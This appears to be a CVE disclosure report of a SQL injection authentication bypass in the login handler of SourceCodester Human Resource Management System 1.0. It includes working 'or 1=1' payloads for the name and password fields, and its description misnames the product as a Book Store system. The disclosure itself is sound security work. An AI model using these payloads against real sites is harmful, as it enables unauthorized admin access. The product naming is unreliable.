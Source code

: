 # CVE Report

SourceCodester Human Resource Management System 1.0 Authentication Bypass using SQL Injection on Login Page

Description: A SQL Injection vulnerable was found at /controller/login.php in SourceCodester Book Store Management System 1.0.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /controller/login.php

# Source code analysis

At index.php file, users login with username and passwd to controller/login.php in submit option.

![](images/login-form.png)

In login.php, Username and Password will be added to sql query command without validation.

![](images/login-handler.png)

# Proof of Concept

Payload in name: `name='+or+1=1%23&password=''&submit=Sign+In`

![](images/bypass-u.png)

Access to Admin Page successfully.

![](images/admin-page.png)

Payload in password: `name=''&password='+or+1=1%23&submit=Sign+In`

![](images/bypass-p.png)